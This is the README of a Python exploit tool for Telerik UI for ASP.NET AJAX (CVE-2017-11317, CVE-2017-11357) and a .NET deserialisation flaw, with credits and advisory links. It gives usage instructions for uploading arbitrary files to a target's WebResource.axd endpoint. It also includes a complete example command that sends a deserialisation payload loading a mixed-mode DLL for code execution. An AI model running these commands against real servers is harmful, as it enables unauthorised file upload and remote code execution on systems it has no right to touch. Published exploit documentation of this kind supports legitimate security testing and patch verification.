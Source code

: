 # RAU_crypto
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

Hard-coded encryption key remote file upload exploit for CVE-2017-11317, CVE-2017-11357 (Telerik UI for ASP.NET AJAX) and a .NET deserialisation vulnerability. Allows for straightforward decryption and encryption of the rauPostData used with Telerik.Web.UI.WebResource.axd?type=rau and resulting in arbitrary file uploads. The exploit will automatically upload the file.

## Requirements
- python >= 3.6 with pycryptodome (https://blog.sqreen.io/stop-using-pycrypto-use-pycryptodome/) - best installed with `pip3 install pycryptodome`

## Published on exploit-db
- https://www.exploit-db.com/exploits/43874/

## See also

My other Telerik UI exploit (for CVE-2017-9248) will probably also be of interest. It is available here:
- https://github.com/bao7uo/dp_crypto

## To do
- [x] Missing HMAC functionality for later versions.
- [x] Ability to specify custom key.
- [ ] Command line argument for execution of a mixed mode dll (in the meantime use the example .NET deserialisation payload provided below).
- [ ] Separate utility for testing mixed mode dll.
- [x] Provide source code/compilation instructions for mixed mode dll.
- [ ] Brute force versions.

Note - the last four items are complete but not released.

## Vulnerabilities
The file upload (CVE-2017-11317) vulnerability was discovered by others, I believe credits due to @straight_blast @pwntester @olekmirosh . Shortly after it was announced, I encountered the Telerik library during the course of my work, so I researched it and the vulnerability and wrote this exploit in July 2017. I also reported CVE-2017-11357 for the related insecure direct object reference.

https://www.telerik.com/support/kb/aspnet-ajax/upload-%28async%29/details/insecure-direct-object-reference

The .NET deserialisation vulnerability was discovered by [@mwulftange]( https://github.com/mwulftange ).

https://www.telerik.com/support/kb/aspnet-ajax/upload-%27async%28/details/unrestricted-file-upload
https://docs.telerik.com/devtools/aspnet-ajax/controls/asyncupload/security#allowedcustommetadatatypes
https://docs.telerik.com/devtools/aspnet-ajax/controls/scriptmanager/assembly-white-list

## Usage
```
$ ./RAU_crypto.py 

RAU_crypto by Paul Taylor / @bao7uo 
CVE-2017-11317 - Telerik RadAsyncUpload hardcoded keys / arbitrary file upload

Usage:

Decrypt a ciphertext:               -d ciphertext
Decrypt rauPostData:                -D rauPostData
Encrypt a plaintext:                -e plaintext

Generate file upload rauPostData:   -E c:\\destination\\folder Version
Generate all file upload POST data: -p c:\\destination\\folder Version ../local/filename
Upload file:                        -P c:\\destination\\folder Version c:\\local\\filename url [proxy]

Generate custom payload POST data : -c partA partB
Send custom payload:                -C partA partB url [proxy]

Example URL:               http://target/Telerik.Web.UI.WebResource.axd?type=rau
Example Version format:    2016.2.504
Example optional proxy:    127.0.0.1:8080

N.B. Advanced settings e.g. custom keys or PBKDB algorithm can be found by searching source code for: ADVANCED_SETTINGS
$
```
## Example - decryption
![Decrypt screenshot](images/decrypt_screenshot.png)

## Example - arbitrary file uplaod
![Upload screenshot](images/upload_screenshot.png)

## Custom payload (.NET deserialisation)

For details on custom payloads for .NET deserialisation, there is a great article by [@mwulftange]( https://github.com/mwulftange ) who discovered this vulnerability on the Code White blog at the following link.

- https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html

Other relevant links.

- https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
- https://threatvector.cylance.com/en_us/home/implications-of-loading-net-assemblies.html
- https://thewover.github.io/Mixed-Assemblies/

Example .NET deserialisation payload:

```
$ ./RAU_crypto.py -C '{"Path":"file:///c:/users/public/documents/mixedmode64.dll"}' 'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' http://target/Telerik.Web.UI.WebResource.axd?type=rau
```

For mixed Mode DLL, see my other github repo:
- https://github.com/bao7uo/MixedUp

Special thanks to [@irsdl]( https://github.com/irsdl ) who inspired the custom payload feature.
